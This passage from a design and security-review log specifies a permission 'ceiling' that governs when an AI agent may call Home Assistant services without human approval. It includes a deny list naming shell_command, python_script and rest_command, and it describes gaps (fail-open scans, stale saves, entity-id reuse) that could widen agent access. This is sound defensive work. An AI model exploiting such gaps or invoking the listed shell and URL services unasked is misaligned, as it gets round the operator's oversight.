  | `script` | runs a script someone else wrote |
  | `automation` | changes what HA does on its own |
  | `shell_command` | runs a shell command on the HA host |
  | `hassio` | manages the Supervisor and add-ons |
  | `homeassistant` | restarts or stops HA itself |
  | `python_script` | runs Python inside HA |
  | `rest_command` | calls an arbitrary URL |
  | `notify` | sends messages outside the house |
  | `update` | installs firmware or software |
  | `recorder` | deletes HA's own history |
  | `pyscript` | runs custom Python |

  The service words (`disarm`, `unlock`, `install`, `purge`, `delete`,
  `reset`) are the same block with one line each. They cannot be edited.
* **Destructive words** below them: the built-ins as locked chips, the
  operator's words as removable chips, and one input to add a word. The
  server accepts `^[a-z0-9_]{3,32}$` (lowercase letters, digits, `_`), lower
  cases nothing, refuses a built-in or a duplicate, and audits the add or
  remove with before/after. The operator can remove only their own words.
* **History** on the page shows the ceiling's changes with the actor and the
  before/after sets (BT6).
* **Layout.** At 1440 the section is a full-width card; each type is one row
  with the name and risk on the left and the action checkboxes on the right,
  wrapping inside the row. At 390 the name, risk and checkboxes stack, the
  never tables become definition lists, and there is no horizontal scroll.
  The `tests/ui/ui_views.cjs` harness measures both widths (overflow and
  contrast) and the section is added to its view list.

**Empty and error states.** With no database rows yet (a failed seed) the
section says "The ceiling is not loaded — nothing can be allowed" and the API
fails closed. A save failure keeps the form's staged values and shows why;
it never claims success.

#### 6. API, audit and the actor

* `GET /api/allowances/ceiling?integration=ha` — the catalogue with each
  row's `enabled`, defaults, risk text, the never lists with reasons, the
  destructive words with `builtin: true|false`, the affected suspended
  allowances, and `updated_at`/`updated_by` per type.
* `PUT /api/allowances/ceiling` — `{integration, enabled: [catalogue_id, …],
  risk_ack, confirm}`. Route-level session check plus the CSRF middleware
  (`X-Eshu-CSRF`); the actor is the session's user, stored on each changed
  row and in the audit row. It refuses an id not in the catalogue and an id
  a destructive word catches.
* `POST /api/allowances/never-words` / `DELETE /api/allowances/never-words/{word}`
  — add and remove an operator word; the add answers 409 with the rows and
  allowances it will suspend, and takes `confirm: true`.
* `POST /api/allowances/{id}/resume` — resume one suspended allowance.
* **No other writer.** These four routes are the only code that writes the
  two tables (BT1, asserted by the AST/route test).
* **Audit rows:** `allowance_ceiling_seeded`, `allowance_ceiling_changed`
  (`integration`, the before/after catalogue-id sets, the affected ids, the
  actor), `allowance_never_word_added` / `_removed` (word, actor, the rows
  it disabled), `allowance_suspended` (existing, with `ceiling_removed` or
  `destructive_word`), `allowance_resumed`, and the hourly
  `allowance_ceiling_unreadable`.
* **History** keeps showing `allowance #N (name)` for a run. Ceiling changes
  appear as their own events, with a link to the allowances they suspended.

#### 7. AZ6 — `restart` joins the destructive words

`DESTRUCTIVE_VERBS` gains `restart`. `_DESTRUCTIVE_RE` already treats `_` as
a separator (BD1), so Jellyfin's `/System/Restart` is marked and asks under
`destructive` mode; `homeassistant.restart` is inside a never domain either
way, and any later restart path is marked too. The operator's own words use
the same matcher.

Tests: `restart`, `/System/Restart`, `restart_container` and
`homeassistant.restart` are marked; `restart_count` is marked too (the safe
direction, and it is not a service anyone allows).

#### 8. Tests this round adds

* **Seed (BT2):** first start writes every catalogue row with its default
  (light/switch/fan/input_boolean/media_player on; cover/climate off), one
  audit row; a second start does not duplicate or overwrite an operator's
  flag; a new catalogue version adds its rows **disabled**; an empty ceiling
  allows nothing and is not re-seeded.
* **Catalogue membership (BT2):** a stored `catalogue_id` that is not in the
  catalogue never matches; a hand-edited row is ignored; a CI test asserts no
  catalogue row is caught by `never`.
* **Defaults:** a `cover.open_cover` allowance is refused at save until the
  row is enabled; `climate` likewise; lights work with no change.
* **Enforcement:** the ceiling refuses at save, at apply (nothing revoked)
  and at match (a disabled row mid-flight stops matching, the call gets a
  card); a DB read failure gets a card and one audit row per hour, not a
  denial.
* **Destructive words (BT3):** an id a built-in word catches cannot be
  enabled (the `stop` collision is pinned by a test until question 1 is
  answered); adding an operator word disables the rows it catches, suspends
  the affected allowances and lists them in the 409; removing the word does
  not resume anything; a word cannot be added from an MCP path (BT1).
* **Never wins:** enabling cannot make `script.script` or `lock.unlock`
  allowable, and the never lists have no edit path.
* **Disable in use:** the 409 lists the affected allowances by name;
  `confirm: true` suspends them, deletes nothing, and audits each; without
  `confirm` nothing changes. A half-failed transaction changes neither the
  rows nor the suspensions (BT4).
* **Re-enable (BT4):** stays suspended; Resume re-validates and audits;
  Resume is refused when the ceiling or a pin no longer allows it.
* **Risk (BT6):** enabling cover/climate or an action on it without
  `risk_ack` is 400; with `risk_ack` it is saved and audited. Enabling a
  non-risky row needs no ack. An entity with a garage/gate/door class shows
  the warning at allowance creation; a switch shows its friendly name and
  class.
* **API (BT1):** no session 401, no CSRF 403, `confirm` required only where a
  disable is in use; every change has an `allowance_ceiling_changed` row with
  before and after; the actor is the session user; an AST/route test proves
  the four routes are the only writers.
* **Widening (BT5):** enabling a row calls `send_notify('ceiling', …)` once,
  with the row and the actor; narrowing does not notify.
* **Second integration (BT6):** a second HA integration's ceiling is
  independent; enabling a row there does not enable it in the first.
* **UI (`tests/test_ui_views.py` + `tests/ui/ui_views.cjs`):** the section
  renders at 1440 and 390 with the plain names and no free-text service
  input; the risk confirm shows the catalogue text and blocks the save until
  acknowledged; the disable confirm lists the affected allowance names; the
  never lists are read-only; a word can be added and an own word removed;
  no horizontal overflow and the contrast check passes at both widths.
* **Copy:** the §1 paragraph is one constant shared with X3; a text test
  asserts both render it and none of them calls the ceiling a gate.

#### 9. New questions for security

1. **BT3 against the safe `stop` actions.** BD1's tokenisation makes
   `cover.stop_cover` and `media_player.media_stop` match the built-in word
   `stop`, so BT3 makes both unavailable — but the operator's default media
   list includes `media_stop`, and Stop is the safe way to halt a cover.
   Exempt exactly those two catalogue rows (`destructive_exempt`, with a test
   that no other row sets it), or drop Stop from the catalogue? Until
   answered, both are unavailable.
2. **A card pending when the ceiling narrows.** Match happens when the
   request is made. If an operator approves a pending card after the type was
   disabled, the approved call still runs. Re-check the ceiling and the
   `never` lists at **approval** and at **ticket claim**, refusing with "the
   ceiling changed"? That is fail-closed, but it adds two reads to the
   approval path.
3. **Who may widen.** Any dashboard session can today. Widening is the
   dangerous direction; does it need a separate admin role or the operator's
   session, while narrowing stays open to any session?
4. **Scope of an operator word.** Global, as the built-ins are (a word added
   for one integration caps every catalogue row whose service contains it),
   or per integration? Global over-marks, which is the safe direction.
5. **Resume.** One allowance at a time, or a bulk resume with one confirm
   listing every allowance? Bulk is convenient after a wide enable and is
   the one action that can reactivate many pre-approvals at once.
6. **Strength of the risk confirm.** A checkbox, or type the row's name for
   cover/climate? And should an allowance that *uses* a risky type need its
   own confirm on save, on top of the ceiling ack?
7. **The notify event (BT5).** Is a new `ceiling` event type, on by default,
   enough, and should a widen by anyone other than the last operator page
   twice? Is the webhook allowed to carry the catalogue id (not the entity
   list)?
8. **The agent-facing line.** Should the agent's tool description say which
   types are currently ceiling-enabled, or stay at "calls matching an
   allowance run without approval"? The list is the operator's setup, but the
   agent already sees its own allowances.
9. **Audit size.** The before/after sets are small today (seven types, 18
   actions). Keep the full lists in the audit row, or store the diff plus a
   hash of the set for a large catalogue later?

`bash scripts/verify.sh`: `3033 passed, 26 skipped, 7 warnings in 665.93s
(0:11:05)` (docs only).

---

### Security review of design rounds 2 and 3 (security reviewer, 2026-11-15, at `221eecc`)

**Approved for the code round, with the rulings below. No musts.**

* BT1–BT6 are folded as asked.
* Round 2 had not had its own security read until now. Its §§1–13 (the
  object, exact conditions, AZ1, BD4/BD5 pins, the decision point, atomic
  rate, profiles and labels, AZ2, the BD1 regex) hold up. The AZ2 "suspend
  everything when the mapping is incomplete" fallback is accepted.

**Answers:**
1. **The `stop` collision.** Grant the narrow exemption, shaped like
   this:
   * the catalogue row carries `exempt_words: ["stop"]`, naming the
     **built-in** word it is exempt from, not a boolean;
   * only `cover.stop_cover` and `media_player.media_stop` set it, and a
     test asserts that exact pair;
   * the exemption covers that one built-in word only. Any other built-in
     word, and **every** operator-added word, still caps the row. `stop`
     is built in, so `add_word('stop')` is refused: an operator who wants
     it to cap both rows unticks `cover.stop_cover` and
     `media_player.media_stop` themselves.
   * `stop` stays destructive everywhere else (Proxmox `stop_vm`, Jellyfin
     `stop_task`).
   * Halting a cover or a player is the safe direction. Dropping Stop
     would leave an allowed Open with no allowed Stop.
2. **A card pending when the ceiling narrows.** Don't re-check it. A card
   is a human approval of the call it shows, and the ceiling bounds
   **pre**-approvals only ("the ceiling does not gate"). Re-checking at
   approval would mix the two meanings and teach operators that the
   ceiling gates. Keep the approval path as it is.
3. **Who may widen.** v1 has one operator role, so no new role in F27.
   BT5's notify is the control. If roles arrive later, widening (enabling
   a row or removing a word) should be admin-only, and narrowing open to
   any session.
4. **Scope of an operator word.** Global. Over-marking is the safe
   direction, and a per-integration word is one more thing to get wrong.
5. **Resume.** One at a time in v1. Each resume reactivates a
   pre-approval, and each deserves its own look. Bulk resume can come
   later with a confirm that lists every row.
6. **The risk confirm.** A server-enforced `risk_ack`, with the catalogue
   text shown word for word, is enough. Typing the name is theatre.
   * **Yes** to a second ack at allowance save, for an allowance that uses
     a risky row or an entity with a garage, gate, door or lock-like
     `device_class`. It is also server-enforced (`risk_ack` on the
     allowance save), because the ceiling ack was about the type and this
     one is about these entities.
7. **The notify event.** A `ceiling` event, on by default, once per change,
   is enough; don't page twice.
   * The payload may carry the integration, the catalogue ids, the
     before/after and the actor. It must not carry entity lists.
   * Turning the `ceiling` notify event **off** is itself audited, and
     sends one final notification.
8. **The agent-facing line.** Keep it generic. The agent sees its own
   allowances, and the ceiling is the operator's setup. Listing it only
   tells an agent what to ask for.
9. **Audit size.** Full before and after sets now, plus a sha256 of the
   enabled set. Move to "diff plus hash" when the catalogue passes about
   100 rows.

**BV1 (should): the `open` lists don't agree.**
* Round 2 says `lock.open` "is the whole value `open` and is refused", and
  that `open_cover` is marked because `open` is a token. But `open` is in
  neither `never.service` nor `DESTRUCTIVE_VERBS`.
* `lock` is outside the catalogue, so this cannot be exploited today. Fix
  the text and the constant all the same:
  * add `open` to `never.service`, matched only as the whole value or the
    `_open` suffix rule, so `lock.open` and `valve.open` are refused
    wherever they appear;
  * do **not** make `open` a destructive word, because BT3 would then cap
    `cover.open_cover`, which the operator means to allow with the risk
    ack;
  * correct the "open_cover is also marked" sentence.
* Test: `lock.open` is refused, `cover.open_cover` passes `never`, and
  `open_cover` is not destructive.

**BV2 (should): the other widening paths.**
* **Removing an operator word is a widening**: it lets rows be enabled
  again. It sends the BT5 notify, like enabling a row, and still resumes
  nothing (BT4).
* **`PUT /api/allowances/ceiling` sends the whole enabled set.** A stale
  second tab could save an old set over a newer one and re-enable a row
  that was just disabled.
  * Send the `updated_at` (or a set hash) the form was loaded with, and
    answer 409 `ceiling_changed` when it no longer matches.
  * The server already computes before and after. This just makes "after"
    mean what the operator saw.

---

### Round 4 — the security answers, folded (2026-11-15)

**Status: code round started on `feat/f27-allowances-code` (from master
`e6b42d8`; the design branch's commits are on it).** The nine answers and
BV1/BV2 are folded as follows.

* **The `stop` exemption (answer 1).** A catalogue row carries
  `exempt_words: ["stop"]` naming the **built-in** word it is exempt from.
  Only `cover.stop_cover` and `media_player.media_stop` set it (a test pins
  that pair). Every other built-in word and **every operator-added word**
  still caps the row. `stop` is built in, so `add_word('stop')` is
  refused; an operator who wants it to cap both rows unticks
  `cover.stop_cover` and `media_player.media_stop` themselves. `stop`
  stays destructive everywhere else.
* **A pending card is not re-checked (answer 2).** The ceiling bounds
  pre-approvals; the approval path is unchanged. "The ceiling does not
  gate" keeps its meaning.
* **One role (answer 3).** No admin role in F27; BT5's notify is the
  control. When roles arrive, widening becomes admin-only.
* **Words are global (answer 4).** Over-marking is the safe direction.
* **Resume one at a time (answer 5).**
* **Risk acks (answer 6).** The ceiling's `risk_ack` covers the type. A
  second server-enforced `risk_ack` on allowance save covers a risky row or
  an entity whose `device_class` is a garage, gate, door or lock-like.
* **The `ceiling` notify (answer 7).** One event per change, on by default;
  the payload carries the integration, catalogue ids, before/after and the
  actor, never entity lists. Turning the event off is audited and sends one
  final notification.
* **The agent line stays generic (answer 8).**
* **Audit (answer 9).** Full before/after plus a sha256 of the enabled set;
  move to diff + hash when the catalogue passes about 100 rows.
* **BV1 — the `open` lists.** `open` joins `never.service` (whole value or
  `_open` suffix), so `lock.open` and `valve.open` are refused wherever
  they appear. `open` is **not** a destructive word (BT3 would cap
  `cover.open_cover`), and the "open_cover is also marked" sentence in
  round 2 §10 is corrected.
* **BV2 — the widening paths.** Removing an operator word is a widening:
  it sends the BT5 notify and resumes nothing. `PUT /api/allowances/ceiling`
  carries the `set_hash` the form loaded; a stale save is 409
  `ceiling_changed`, so a second tab cannot re-enable a row the first tab
  just disabled.

**Code round (2026-11-15).** Two slices on `feat/f27-allowances-code`, both
gated.

* **The ceiling slice.** The catalogue, the seeded DB ceiling, the
  never/destructive checks (with the `stop` exemption), the operator words,
  and `GET/PUT /api/allowances/ceiling` with session + CSRF + `risk_ack` +
  `set_hash` + audit + notify. Answer 7 is in: the `ceiling` event is on by
  default, and turning it off is audited and sends one final notification.
* **The engine slice.** `core/allowances.py` now stores allowances, uses,
  profiles and templates. Conditions are exact and walked at match time:
  plain entity ids only (an expanding target is a card), every list element
  in the set, no extra `data` keys, and the ceiling must still allow the
  type and action. A miss, an ambiguous match, a rate/window/expiry/
  suspension hit is the ordinary card. The use and the rate count are one
  `BEGIN IMMEDIATE` transaction. Matching never reads HA: the registry pin
  is made at save (and re-checked at resume/apply). `run_tool` consults it
  after every refusal and before the plan/gate; a `gated` agent never does.
  Profiles are named and versioned; a re-apply revokes the agent's old
  allowances from that profile first, and a label template resolves to an
  entity list at apply time. Answer 6's second ack is server-checked for a
  risky row or a garage/gate/door/lock-like device class (read from HA at
  save).
* **The page.** Allowances is a nav item and a view: the shared paragraph,
  the ceiling rows with plain labels, risk text and a confirm, the read-only
  never lists, the destructive-word chips and add/remove, the allowance
  list with Revoke/Resume, the create form (agent, type, action, entities,
  rate, window), and a profile builder/list with Apply. `app.js` `ui32`,
  `state.js` `ui4`.
* **The harness.** `tests/ui/ui_views.cjs` now includes `allowances` and
  measures it at 1440 and 390 (overflow + AA contrast); the seeded server
  renders the view. `tests/test_f27_ui.py` pins the nav, copy, controls and
  the harness entry.
* **Tests.** `tests/test_f27_allowances.py` (match, every miss, rate,
  window, ambiguity, disabled ceiling, second ack, profiles/label) and the
  ceiling suite; the harness run is green at both widths.

`bash scripts/verify.sh`: `3215 passed, 26 skipped, 7 warnings in 690.05s
(0:11:30)`.

### Round 5 — the remaining F27 slices (2026-11-15)

**AZ2.** An approved `ha_config_write` now calls
`allowances.on_config_write()` after the write succeeds. A plain entity id
in the written text suspends the allowances that name it
(`suspended_reason='config_write'`); an `!include`, `packages:`, or a
type-level block (`light:` …) means the mapping is incomplete and every HA
allowance is suspended (`config_write_unmapped`), as security accepted.
Suspension is audited and never deletes; a dry run does not trigger it.

**The label refresh.** A background job (every five minutes) re-resolves
label-sourced allowances. A leaver drops out of the stored entity list at
once; a joiner is held in `pending_json` and shown as "N new" with an
Accept button; a changed registry id suspends the allowance
(`registry_changed`); a failed registry read changes nothing. Resume and
apply re-check the pins.

**Update agents.** A profile card opens a preview: the live allowances the
re-apply would revoke, the templates it would add, and whether the agent is
already on the current version. Nothing is written until the separate
Apply update; the server computes the same lists the modal shows.

**The F6 bucket.** An allowance run is an MCP integration call with
`approval='allowance:<id>'`. It is now its own bucket in the session
wrap-up (an allowance-only session still shows the card), in the statistics
totals/series, and in the chip legend with its own dot colour.

**The agent line.** When the calling agent has a live allowance, its
visible MCP tools carry one generic line: calls matching an allowance run
without approval, and the window/rate/expiry still apply. It names no type
or entity (answer 8).

**Endpoints.** All below take a dashboard session; every non-GET also needs
the CSRF middleware's `X-Eshu-CSRF` (the gateway-token routes of X9 are the
exception, and they are token-bound).

| Method | Path | Auth |
|---|---|---|
| GET | `/api/allowances/ceiling` | session |
| PUT | `/api/allowances/ceiling` | session + CSRF |
| POST | `/api/allowances/words` | session + CSRF |
| DELETE | `/api/allowances/words/{word}` | session + CSRF |
| GET | `/api/allowances` | session |
| POST | `/api/allowances` | session + CSRF |
| POST | `/api/allowances/{id}/revoke` | session + CSRF |
| POST | `/api/allowances/{id}/resume` | session + CSRF |
| POST | `/api/allowances/{id}/accept-join` | session + CSRF |
| GET | `/api/allowances/profiles` | session |
| POST | `/api/allowances/profiles` | session + CSRF |
| GET | `/api/allowances/profiles/{pid}/diff?agent_id=` | session |
| POST | `/api/allowances/profiles/{pid}/apply` | session + CSRF |

**Tables.** `allowance_ceiling` and `allowance_never_words` (the ceiling);
`allowances`, `allowance_uses`, `allowance_profiles`,
`allowance_profile_templates` (the engine). `integration_calls.approval`
carries `allowance:<id>` for the F6 bucket. No existing column changed.

**Screenshots** (not committed; the host only allows the workspace, so they
live under `.scratch/f27-shots/` outside git): `allowances-empty-1440.png`,
`allowances-empty-390.png`, `allowances-seeded-1440.png`,
`allowances-seeded-390.png` — the page empty and with three allowances
(active, suspended, pending join) and a profile, at both widths.

`bash scripts/verify.sh`: `3222 passed, 26 skipped, 7 warnings in 695.57s
(0:11:35)`.

### Security review of the code round at `7da5350` (2026-11-15)

**Verdict: changes requested. Two musts (BX1, BX2) and four shoulds
(BX3–BX6).** The rest of the round is what the design asked for:
* every route checks the session, and no MCP or agent path writes
  allowances;
* the UI escapes every field it renders;
* the claim and the rate count are one `BEGIN IMMEDIATE` transaction;
* `_parse_call` refuses `target`, extra `data` keys, a string `data`,
  `all`/`none` and any non-plain id, so all of those get a card;
* the ceiling, the never lists and the destructive words are re-checked at
  match time;
* `gated` beats an allowance (BD2);
* an ambiguous match gets a card;
* the agent line is generic (answer 8);
* turning the `ceiling` event off is audited and sends one final notice
  (answer 7);
* agent ids come from an AUTOINCREMENT key, so a deleted agent's id is never
  reused and its allowances cannot pass to a new agent.

**BX1 (must): the label refresh and accept-join change a list that matching
never reads.**
* `_matches` reads `conditions_json['data.entity_id']['in']`, which is
  written once, at insert. `refresh_labels` and `accept_join` update only
  `entities_json` (the pins).
* As a result:
  * An entity that **leaves** the label keeps matching. "Drops out at once"
    does not happen, and the operator usually removes a label precisely to
    stop the agent touching that entity.
  * An **accepted** joiner never matches. That is fail-safe, but the button
    does nothing.
  * AZ2's scan and resume's pin check read `entities_json`. A config write
    that names the leaver therefore no longer suspends an allowance that
    still matches it.
* `test_a_label_leaver_drops_and_a_joiner_waits` asserts on the stored
  column, not on a match, so it passes.
* **Fix:**
  * Keep one source of truth. Either match on the pins' entity ids, or
    rewrite the condition list in the same UPDATE as the pins, in refresh
    and in accept-join.
  * Test with `match_and_claim`: a leaver gets `None` and an accepted
    joiner matches.

**BX2 (must): the registry-pin check runs only for label allowances.**
* `refresh_labels` skips every row without `source_label_id`. BD5 asked
  the same job to re-read the pins of **every** allowance. This is the
  entity-id reuse case: delete a plug, rename a new device to the same
  `switch.heater`, and a hand-made allowance keeps matching with no limit.
* The plain-entity half of `test_a_changed_registry_id_suspends` is
  switched off (`a.refresh_labels() if False else None`). The test then
  proves only the label case.
* **Fix:**
  * Check the pins of every live HA allowance on each refresh. A missing or
    changed registry id suspends the allowance with `registry_changed`.
  * Re-enable the plain-entity test.
* **Should, same item:** BD5's widening, to suspend after an approved
  write that redefines an entity through the registry or a config entry,
  is not in the code. An approved entity-registry rename is exactly how an
  entity id gets a new meaning. The minimum fix is to run the pin check
  straight after any approved HA write to `config/entity_registry/*` or
  `config/config_entries/*`, not up to five minutes later.

**BX3 (should): AZ2 has three gaps.**
* `ha_config_restore` is not hooked. A restore replaces a file just as a
  write does, and the handler cannot see the content it restores. Treat
  every approved restore as unmapped and suspend every HA allowance
  (`config_write_unmapped`).
* The hook in `_h_ha_config_write` is `except Exception: pass`, so a failed
  scan fails open. On an exception, suspend every HA allowance and write an
  audit row. If that also fails, write one `allowance_config_write_failed`
  row.
* `_YAML_DOMAIN_BLOCK` does not match the modern `template:` form
  (`template:` then `- switch:` with a dash), where the entity id comes
  from `name`/`unique_id` and never appears in the text. Add `template` to
  the block list and allow an optional `-\s*` before the domain key.

**BX4 (should): re-applying a profile revokes before it validates.**
* `apply_profile` revokes the agent's old rows from that profile and then
  calls `create_allowance` per template. That call can still fail: a
  missing risk ack, an HA read error (503), or an entity HA does not know.
* The UI's first Apply always sends `risk_ack: false`. For any risky
  template, the old rows are revoked and nothing is created. If the
  operator then cancels the confirm, the agent is left with no allowances.
* The design says "a failure refuses the apply before anything is
  revoked".
* **Fix:** run every check first (ceiling, entities, risk, registry pins),
  then revoke and insert in one transaction.
* Also bind Apply to the version the preview showed: send
  `profile_version`, and return 409 if the profile changed since the
  preview.

**BX5 (should): accept-join is a widening with no risk ack.**
* A joiner whose `device_class` is a garage, gate, door or lock-like class
  is added without answer 6's second confirm. Neither the 64-entity cap nor
  the ceiling is checked.
* **Fix:** run `_risk_for` on the joiners, return `risk_ack_required` as
  the save path does, and apply the cap.

**BV2 left open, now BX6 (should): the stale-form check is optional.**
* `apply_ceiling` skips the `set_hash` compare when the field is empty, and
  `CeilingPayload.set_hash` defaults to `""`. Any client that leaves it out
  bypasses BV2. The UI sends it, but the check belongs to the server.
* **Fix:**
  * Refuse a PUT without `set_hash` (400).
  * Compare and write inside one `BEGIN IMMEDIATE`, so two saves cannot
    both pass the compare.

**Nits.**
* `add_word('stop')` is refused as built-in, so answer 1's "an operator who
  adds `stop` gets both rows switched off" cannot happen. Either correct
  the sentence (the operator unticks the two rows) or allow it. Also,
  `add_word`'s `w not in row['exempt_words']` contradicts `is_destructive`'s
  rule that an operator word is never exempt. It is harmless today, but
  make the two agree.
* `integration_proxy.DESTRUCTIVE_VERBS` now includes `stop`, `restart`,
  `reboot`, `shutdown`, `disable`, `unlock` and `disarm`. The comment above
  it still says they are excluded. Under the `destructive` gate mode,
  generic writes with those words now get a card. That is the safe
  direction, but it is a behaviour change: fix the comment and state it in
  the release notes.
* The refresh thread's comment says "once a minute", but it sleeps 300
  seconds.
* The design's "an invalid stored condition writes one audit row per
  allowance per hour" is not implemented. Low priority.

Re-read scope once BX1–BX6 are in: the refresh/accept path and its match
tests, the all-rows pin check, the AZ2 hook (restore, fail-closed,
`template:`), `apply_profile` ordering and transaction, accept-join's ack,
and the PUT ceiling.


### Round 6 — implementer notes for the BX fixes (2026-11-17)

**Status: BX1–BX6 and the four named nits are in on
`feat/f27-allowances-code`; this round stops for the Security re-read.**

**BX1 — one entity list.** `entities_json` (the pins) is now what `_matches`
reads; `conditions_json['data.entity_id']` is written only as a display copy.
`refresh_labels` and `accept_join` rewrite **both** columns in one UPDATE
(`_write_entity_list`), and refresh/accepted changes are visible to
`match_and_claim` on the next call. The label test now asserts through
`match_and_claim`: the leaver gets `None`, the held joiner gets `None`, and
the accepted joiner matches.

**BX2 — every live HA allowance is pinned.** `refresh_labels` no longer
skips rows without `source_label_id`: every live HA row has
`_pin_changed()` run over its pins, and a missing or changed registry id
suspends with `registry_changed`. The plain-entity half of the test is
re-enabled (no more `if False`). `refresh_pins()` is the pin-only pass used
straight after an approved write; `tool_runner.note_ha_registry_write()`
runs it after an approved/immediate HA `ws_write` or generic write whose
command/path is `config/entity_registry/*` or `config/config_entries/*`, and
the approval executor calls it on the same turn. The F11 handler also runs
it if a write ever targets one of those paths.

**BX3 — AZ2 gaps.** `ha_config_restore` now calls
`allowances.on_config_restore()`, which suspends every live HA allowance with
`config_write_unmapped`. The write hook's `except Exception: pass` is gone:
a scan that raises calls `on_config_write_failed()`, which suspends every HA
allowance and writes `allowance_config_write_scanned`; if that suspension
also fails, one `allowance_config_write_failed` row is written instead.
`_YAML_DOMAIN_BLOCK` now includes `template` and accepts an optional `-`
before the domain key, so `template:` / `- switch:` are unmapped.

**BX4 — apply validates first.** `apply_profile` resolves labels, then runs
ceiling, entity, risk and registry-pin checks for every template with one
registry read, and only then starts one `BEGIN IMMEDIATE` transaction that
revokes the old rows and inserts the new ones. The transaction re-reads the
profile version; a failure rolls the revoke back. The request carries
`profile_version` (required; a missing/zero value is a 400
`profile_version_required`), and a stale value is a 409 `profile_changed`.
The UI sends the version the preview showed.

**BX5 — accept-join is a widening.** `accept_join` re-checks the ceiling,
refuses a total above 64 entities, and runs `_risk_for` on the joiners: a
risky catalogue row or a garage/gate/door/lock-like joiner returns
`risk_ack_required` until the operator confirms. The route accepts an
optional `risk_ack` body (a body-less call is treated as `false`); the UI
shows the same second confirmation as the save path. Both columns are
rewritten in one transaction.

**BX6 — the stale-form check is the server's.** `apply_ceiling` refuses a
PUT with an empty `set_hash` (400 `set_hash_required`). The current set and
its hash are read, compared and written inside one `BEGIN IMMEDIATE`; the
risk-ack check and the enabling/disabling set are computed from that same
read, so two saves cannot both pass the compare. The UI already sent the
hash.

**Nits.**
* The design's answer-1 sentence now says the truth: `stop` is built in, so
  `add_word('stop')` is refused; an operator who wants it to cap both rows
  unticks them. The code's `add_word` no longer applies the built-in
  `exempt_words` filter to an operator word, so it agrees with
  `is_destructive` (an operator word is never exempt); a test simulates
  `stop` as an operator word and asserts both rows are switched off.
* `integration_proxy.DESTRUCTIVE_VERBS`'s comment now describes the widened
  list and names the behaviour change; `CHANGELOG.md` [Unreleased] records
  that generic writes carrying those verbs now get a card under
  `destructive`.
* The refresh-thread comment now says five minutes (matching
  `time.sleep(300)`).
* The low-priority "one audit row per allowance per hour" nit is not in
  this round (it is not in the operator's list).

**Tests added/updated.** `tests/test_f27_allowances.py` (BX1 match through
the engine, BX2 plain pin + post-write pin pass, BX3 restore/fail-closed/
`template:`/dash form, BX4 validate-before-revoke + version binding + rollback,
BX5 cap/ceiling/risk, the operator-word nit) and `tests/test_f27_ceiling.py`
(BX6 required hash + stale hash). Each new test was run against the pre-fix
code and failed; the suite is green after the fix.


### Security re-read of the fix round at `721503d` (2026-11-17)

**Verdict: approved to merge. BX1–BX6 are fixed.**
* **BX1.** Matching reads the pins (`_stored_entities`). Refresh and
  accept-join rewrite the pins and the copy in `conditions_json` in one
  UPDATE (`_write_entity_list`). The tests now call `match_and_claim`: a
  leaver gets `None`, and an accepted joiner matches.
* **BX2.** The refresh re-reads the pins of every live HA allowance, both
  hand-made and label-based. A missing or changed registry id suspends the
  allowance with `registry_changed`. The plain-entity test is back on.
  `refresh_pins` also runs straight after an approved registry write:
  through `ha_config_write`, on the ungated or allowance path of `_execute`,
  and in `approve_integration_call`.
* **BX3.** A restore suspends every HA allowance. A scan that raises fails
  closed, and only a second failure writes
  `allowance_config_write_failed`. `template:` and the dashed
  `- switch:` form count as unmapped.
* **BX4.** All checks run first, including one registry read. Then the
  revoke and the inserts run in one `BEGIN IMMEDIATE`, which re-checks the
  version. Apply requires `profile_version`, and a stale value is a 409. The
  rollback test covers an insert that fails.
* **BX5.** Accept-join checks the ceiling, the 64-entity cap and the second
  risk confirmation. It refuses a revoked row, and it writes under
  `BEGIN IMMEDIATE`.
* **BX6.** `set_hash` is required (`set_hash_required`), and the compare
  and the write share one `BEGIN IMMEDIATE`.
* **Nits are done.** An operator word is never exempt. The destructive-verb
  comment and the CHANGELOG state the behaviour change. The refresh comment
  says five minutes.

**BZ3 (should, follow-up; does not block the merge): a config-entry write
needs its own rule.** My BX2 minimum, a pin check after the write, does not
work for config entries:
* An options-flow or config-entry write, such as editing a template
  helper's template, changes what an entity does without changing its
  registry id. `refresh_pins` therefore finds nothing.
* `is_registry_write_path` matches `config/config_entries/` (REST), but
  HA's WebSocket commands for config entries are `config_entries/...`, with
  no `config/` prefix, so they are not matched at all.
* **Fix:**
  * After an approved write to REST `config/config_entries/*` or WS
    `config_entries/*`, suspend the allowances whose entities carry that
    `config_entry_id` in the registry.
  * If the entry id cannot be read from the write, suspend every HA
    allowance. This is AZ2's conservative branch.
  * Add the WS prefix to the matcher.
* An entity-registry rename, the reuse case, is covered now.

**Merge note.** E2E-1's CA5 adds `integration_calls.excluded`. Whichever
branch merges second must add `COALESCE(excluded, 0) = 0` to F27's two
`allowance:%` queries (the statistics series and the session card).
Otherwise excluded test calls still count in the allowance bucket.

### Security review — HA-by-kind fix (`fix/f27-ha-by-kind` @ c38d5ed)

**Approved to merge.** Design and code text read only; nothing was run.
* `_ha_integration()` now returns the single enabled integration of kind
  `ha`. With none, or with more than one, it returns nothing. Saves then
  refuse with 503, and so do the registry and state reads. Nothing matches.
  This fails closed: an entity id means nothing until we know which HA it
  belongs to.
* `match_and_claim` takes the integration row and matches by id, not by
  name. A non-HA integration that happens to be named `ha`, and the bare
  string `'ha'`, both miss. Both cases are tested.
* The runner passes the row it is about to call, and the tests now go
  through `run_tool` with an integration named "Home Assistant". The
  earlier tests passed only because the fixture named it `ha`.
* `note_ha_registry_write` already checks the kind, so it needed no
  change.

**CB1 (should, follow-up): bind the allowances to *which* HA they were
made on.**
* Allowances are stored under the kind string `ha`, not under an
  integration id. "The one enabled HA" can therefore become a different
  Home Assistant while the allowances stay live:
  * the operator edits the integration's base URL or token;
  * the operator disables integration A and enables B;
  * a second integration is enabled (nothing matches), then the first is
    disabled.
* An allowance for `switch.kettle` would then run against whatever is
  called `switch.kettle` on the new instance.
* The registry-id pins catch this, but only on the five-minute refresh.
  Matching does not read the live registry. So there is a window of up to
  five minutes.
* The name lookup had the same gap for a base-URL edit. The kind lookup
  adds the other two cases.
* **Fix:**
  * Record the HA integration's id and a fingerprint of its base URL
    whenever an allowance is saved or applied.
  * In `_ha_integration()`, treat a different id or fingerprint as "no
    HA", and suspend every live HA allowance with the reason
    `ha_changed`, in the same way as AZ2's restore branch.
  * Alternatively, call that suspension from `update_integration`,
    `create_integration` and `delete_integration` whenever a kind-`ha` row
    changes its base URL, secret, enabled flag or kind.
  * Either way, the operator resumes the allowances after checking them.

**Nit.** `_ha_integration()` lists every integration on each
